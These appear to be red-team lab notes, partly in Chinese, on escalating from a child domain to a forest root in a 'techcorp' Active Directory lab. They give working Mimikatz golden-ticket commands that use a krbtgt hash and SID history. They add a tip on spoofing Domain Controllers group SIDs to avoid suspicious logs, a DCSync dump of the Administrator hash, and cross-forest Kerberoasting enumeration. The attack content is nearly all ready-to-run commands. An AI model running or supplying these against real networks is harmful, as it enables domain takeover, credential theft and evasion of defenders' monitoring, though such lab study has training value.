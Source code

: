验证
```
ls \\techcorp-dc.techcorp.local\c$
```

## Child to Forest Root -krbtgt

1. 这里使用krbtgt的哈希可以直接ptt，无需再申请tgs，省略了一步

abuse sIDhistory once again
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /ptt"'
```

验证
```
ls \\techcorp-dc.techcorp.local\C$
```
进入
```
Enter-PSSession techcorp-dc.techcorp.local
```

2. Avoid suspicious logs by using Domain Controllers group（使用域控制器组避免可疑日志）

```
Invoke-Mimikatz -Command '"kerberos::golden /user:us-dc$ /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:516 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /ptt"'
```

S-1-5-21-2578538781-2508153159-3419410681-516 – Domain Controllers

S-1-5-9 – Enterprise Domain Controllers

最后导出DA哈希
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\Administrator /domain:techcorp.local"'
```

# Kerberoast

• It is possible to execute Kerberoast across Forest trusts.(可以跨森林信任执行Kerberoast。)
• Let's enumerate named service accounts across forest trusts(列举跨森林信任的命名服务账户)

PowerView
```
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}
```

ActiveDirectory Module
```
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}
```
